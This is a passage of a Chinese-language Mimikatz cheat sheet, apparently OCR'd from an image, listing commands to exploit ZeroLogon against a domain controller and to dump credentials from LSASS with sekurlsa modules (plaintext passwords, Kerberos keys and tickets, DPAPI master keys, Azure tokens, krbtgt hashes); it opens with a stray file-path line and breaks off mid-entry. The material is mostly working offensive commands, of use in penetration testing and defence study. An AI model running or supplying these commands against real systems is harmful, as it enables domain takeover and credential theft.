 ```
检测并利用ZeroLogon漏洞
```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
```

# sekurlsa模块
这个模块可能是Mimikatz用户中使用最多的模块。它从LSA的子系统服务(LSASS)中检索明文密码、kerberos票、pin码等

## backupkeys

列出备份秘钥
```
mimikatz # sekurlsa::backupkeys
```

## bootkey
设置SecureKernel Boot Key并尝试解密LSA Isolated凭证
```
mimikatz # sekurlsa::bootkey
```

## cloudap
列出 Azure (Primary Refresh Token) 凭据

```
mimikatz # sekurlsa::cloudap
```

## credman
通过针对微软本地安全授权服务器DLL（lsasrv.dll）列出凭证管理器。

```
mimikatz # sekurlsa::credman
```

## dpapi
列出DPAPI缓存的masterkeys

```
mimikatz # sekurlsa::dpapi
```

## dpapisystem

列出DPAPI_SYSTEM secret key

```
mimikatz # sekurlsa::dpapisystem
```

## ekeys

列出Kerberos加密密钥
```
mimikatz # sekurlsa::ekeys
```

## kerberos

列出Kerberos凭证
```
mimikatz # sekurlsa::kerberos
```

## krbtgt
检索krbtgt RC4（即NT哈希值）、AES128和AES256哈希值
```